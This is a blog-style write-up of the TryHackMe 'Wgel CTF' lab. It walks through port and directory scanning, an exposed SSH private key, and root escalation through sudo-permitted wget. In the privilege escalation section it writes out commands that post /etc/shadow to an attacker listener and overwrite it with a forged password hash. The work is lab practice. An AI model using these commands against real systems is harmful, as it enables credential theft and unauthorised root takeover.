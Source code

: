```yaml
---
title: "TryHackMe - Wgel CTF"
author: Nasrallah
description: ""
date: 2022-04-29 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, sudo, wget]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello l33ts, I hope you are doing well. We are doing [Wgel CTF](https://tryhackme.com/room/wgelctf) from [TryHackMe](https://tryhackme.com). We start by enumerating the machine with nmap, we find ssh on port 22 and a webserver on port 80. We run a directory scan and find private key, we use the latter with a username we found in the webpage source code to login with ssh. After getting access to the machine we find that we can run `wget` as root, we leverage that to get root access by replacing the shadow file with one we modified. Let's get started.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.165.173
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got 2 open ports. Let's check the webserver on port 80.

### Web

Navigating to the webpage we get this.

![](/assets/img/tryhackme/wgel/1.png)

It's the default page for apache, let's view the source code.

![](/assets/img/tryhackme/wgel/2.png)

We found a possible username.

### Gobuster

Let's run a directory scan with `gobuster`.

![](/assets/img/tryhackme/wgel/3.png)

We found a directory named **sitemap**, let's go see what' there.

![](/assets/img/tryhackme/wgel/4.png)

It's a UNAPP template page, nothing really useful, let's run another directory scan on sitemap.

![](/assets/img/tryhackme/wgel/6.png)

Wow, we found **.ssh** directory, let's go take a look and hope there is a private key waiting for us there.

![](/assets/img/tryhackme/wgel/5.png)

Great! We got an ssh private key.


## **Foothold**

Let's copy that key to a file in our machine and give it the right permission, then let's use it with the username we found earlier to login with ssh.

![](/assets/img/tryhackme/wgel/7.png)

Nice, we got access to the box. Let's escalate our privileges now.


## **Privilege Escalation**

First, let's check our current privileges with the command `sudo -l`.

![](/assets/img/tryhackme/wgel/8.png)

We see that we can run every command as root, but we need a password for that, on the other hand, we can run `wget` with no password.

I searched on Google for a way to escalate privileges with `wget` and found this [article](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/) explaining how to do so.

What we can do is read the /etc/shadow file, get a hash, and try to crack that hash. First let's setup a listener on our machine with the command `nc -lvnp 80` 

![](/assets/img/tryhackme/wgel/9.png)

Now on the compromised machine, run `sudo wget --post-file=/etc/shadow {attacker_ip}`

![](/assets/img/tryhackme/wgel/10.png)

Now going back to our listener, we should have received the content of **shadow** file.

![](/assets/img/tryhackme/wgel/11.png)

Great! We have the shadow file, I've tried to crack the hash but got nothing.

One other thing we can try is to modify the shadow file by putting our own crafted hash and upload it the the compromised machine.

First, let's generate a new password hash using the command `openssl passwd -6 pass123`.

![](/assets/img/tryhackme/wgel/12.png)

The password i used is **pass123**, you can choose whatever you want.

Let's replace jessie's hash with the one we just created.

![](/assets/img/tryhackme/wgel/13.png)

Great! Now let's upload the file to the machine using the command `sudo wget http://10.11.31.131/shadow --output-document=shadow`

> Note: You have to change the directory to **/etc** before uploading the file.

![](/assets/img/tryhackme/wgel/14.png)

Now that we replaced the shadow file, let's change our user to root. We know that jessie can execute any command as root using a password, let's run the command `sudo su` and submit the password we specified while creating the hash, in my case it's `pass123`.

![](/assets/img/tryhackme/wgel/15.png)

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/